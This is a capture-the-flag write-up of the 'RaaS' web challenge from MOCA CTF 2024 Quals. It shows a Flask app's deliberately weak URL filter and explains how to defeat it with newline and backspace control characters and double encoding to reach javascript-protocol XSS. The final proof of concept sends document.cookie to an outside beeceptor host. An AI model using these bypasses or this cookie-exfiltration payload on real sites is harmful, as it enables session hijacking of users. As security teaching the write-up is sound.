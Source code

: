 # RaaS [WEB] - MOCA CTF 2024 Quals
---
![[./assets/MocaCTF_logo.png]]

# TL;DR

- The challenge involved achieving DOM XSS inside a Flask template through the `javascript:` pseudo protocol. This was accomplished bypassing a filtering regex and blacklisted characters.
# 0. Description

> A simple click-to-xss to warmup.

---
## 1. Challenge scenario

We're given a form in which it is possible to insert a link, a title, and be redirected to that URL. There is also the possibility of sending this link to the admin who will in turn be redirected.

![[./assets/RaaS_firstlook.png]]

Source code is provided, so we'll look into that to understand what's happening.

## 1.1) Source code analysis

The project is divided into two parts: the main application and the admin bot. We'll look into the application code first.

**app.py**
```python
from flask import Flask, request, render_template, Response, redirect,jsonify, make_response, g, redirect, send_file
import requests
import urllib.parse
import re

app = Flask(__name__)

@app.route('/', methods=['GET'])
def main_page():
    return render_template('home.html')

def check_url(url):
    url = url.lower()
    pattern = r'[()=$`]'
    if bool(re.search(pattern, url, re.IGNORECASE | re.DOTALL)):
        return False
    if url.startswith("j") or "javascript" in url:
        return False
    return True

def check_title(title):
    if "<" in title or ">" in title:
        return False
    return True

@app.route('/redirectTo', methods=['GET'])
def redirect_to():

    url = request.args.get("url")
    title = request.args.get("title")
    default_url = "https://www.youtube.com/watch?v=xvFZjo5PgG0&ab_channel=Duran"

    if not isinstance(title,str) or not isinstance(url,str):
        return render_template('redirect.html',url=default_url, title="title")
    url = url.strip()

    if not check_url(url) or not check_title(title):
        return render_template("redirect.html", title=title, url=default_url)
    return render_template('redirect.html',url=url, title=title)

@app.route('/redirectAdmin', methods=['GET'])
def redirect_admin():
    default_url = "https://www.youtube.com/watch?v=xvFZjo5PgG0&ab_channel=Duran"
    admin_bot = "http://raas-admin:3000/report_to_admin"
    url = request.args.get("url")
    title = request.args.get("title")
    
    if not isinstance(title,str) or not isinstance(url,str):
        requests.post(admin_bot, json={"url":default_url, "title":"title"})
        return jsonify({"message":"done"}), 201

    url = url.strip()
    if not check_url(url) or not check_title(title):
        requests.post(admin_bot, json={"url":default_url, "title":"title"})
        return jsonify({"message":"done"}), 201

    requests.post(admin_bot, json={"url":url, "title":title})
    return jsonify({"message":"done"}), 201


if __name__ == '__main__':
    app.run(host="0.0.0.0", port=5000)
```


Clicking on the "*Get Redirected!*" button will trigger the `/redirectTo` route, which is anyway triggered also by the "*Redirect the Admin!*" button that executes the `/redirectAdmin` route.
The first endpoint accepts the `url` and `title` parameters which must be strings and later passed to the `check_url()` and `check_title()` sanitizing functions. If we can bypass that with a working payload, we'll have XSS. 
The second endpoint forwards the given URL to the admin bot, which simply goes to the `/redirectTo` endpoint with our inputs, and simulates a button click on the "*Follow Link*" button.

![[./assets/Raas_redirectTo.png]]

The `check_url` function aims to sanitize the URL input by converting it to lowercase, hence avoiding all the lowercase-uppercase payloads like `jAvAsCriPt:aLeRt(1)`. It also check for the presence of some special characters with the regex ```r'[()=$`]'``` that will limit us later on exploitation.
Particularly, it ensures the URL does not start with "j" character or contain the substring "javascript". This comes out as the main limitation for us, since it should block the payloads with the javascript pseudo protocol.

At this point, a simple way out will be any other working pseudo protocol XSS payload like `data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4`. However, if we try so, the browser will insult us with:

![[./assets/Raas_browserblock.png]]
My approach at this point was to split the checks individually in the source code an try to bypass them one by one.

# 2. Exploitation

Below I will explain how I bypassed each of them, doing it with a bottom-up approach cause I found it more convenient.
## 2.1) "javascript" not allowed bypass

We're not allowed to use the string "javascript" anywhere in our URL, so...just don't use it!
We will write
```
java
script
```
instead.
Here we are using a **newline character** to bypass the check. Since in the Python side `"java\x0Ascript" != "javascript"`, but in the broswer `java%0Ascript` will still be considered a valid url for the `javascript` protocol.

>[!info] NOTE
> Our input get stripped before getting into che sanitizing function, however Python [strip()](https://docs.python.org/3.11/library/stdtypes.html#str.strip) function only removes **leading and trailing characters**.

Even though this is a common bypass, I never actually knew why this was working. Researching for bypasses for the javascript pseudo protocol I've found [this blog](https://aszx87410.github.io/beyond-xss/en/ch1/javascript-protocol/) which was helpful to me to find out the reason why whitespaces are allowed in this situation and find out the bypass for the next filter.
The reason seems to rely in the [URL spec standard](https://url.spec.whatwg.org/) which removes any ASCII tab or newline from inputs.

## 2.2) doesn't starts with "j" bypass

This one was tougher.
the strip function that was allowing me to bypass the previous check was sending me crazy on this one.
Majority of payloads broke the `javascript` protocol: even if they bypassed the checks, they would just get included as part of the web application URL (e.g `url=/java%0Ascript:payload`).
Another example is what I initially thought to be a NULL byte bypass, which caused instead a strange behaviour:
![[./assets/Raas_NULLbyteinurl.png]]
As you can see, it bypassed the python checks but in the button preview (left corner) it was mutated in some non printable character, invalidating it as protocol.
However, i felt in being in the right path, until the previous blog confirmed my sensations.

![[./assets/RaaS_controlcharsinURL.png]]
Control Characters are allowed?? It did, in fact.
Using the **BACKSPACE** (`%08`) character allowed me to bypass the python filter and still getting a valid url for the javascript protocol!
And any of the [ASCII Control Characters](https://en.wikipedia.org/wiki/Control_character) below would have probably get the job done.
![[./assets/Raas_ASCIIcontrolchars.png]]
## 2.3) regex bypass

This was probably the easiest check to bypass, since javascript is very permissive in expressions that can be created even with a few symbols, it is no coincidence that there are many esoteric languages ​​on javascript such as [JSFuck](https://jsfuck.com/) that manage to create valid expressions using only a few symbols.

>[!info] Fun Fact
> [here](http://aem1k.com/aurebesh.js/) I've found some of the funniest javascript esoteric shit expression while doing this challenge, like...how the fuck i can popup alert with fucking Egyptian hieroglyphs, but a simple NULL byte will break the shit out of the payload??

However, searching brainlessly "XSS payloads without parentheses" was enough since i found many working payloads inside [this repo](https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md).
I was also able to double encode inside the payload after the `javascript:` since javascript was decoding it.
## 2.4) PoC

```javascript
%08java%0Ascript%3Afetch%2528'http://eeeee.free.beeceptor.com/'%2Bdocument.cookie%2529
// javascript:fetch('http://eeeee.free.beeceptor.com/'+document.cookie)
```

![[./assets/RaaS_finalpayload.png]]
> `PWNX{WH0_D035'N7_l0V3_4_g00D_0l'_W4F?}`

---
### TAGS: #XSS #flask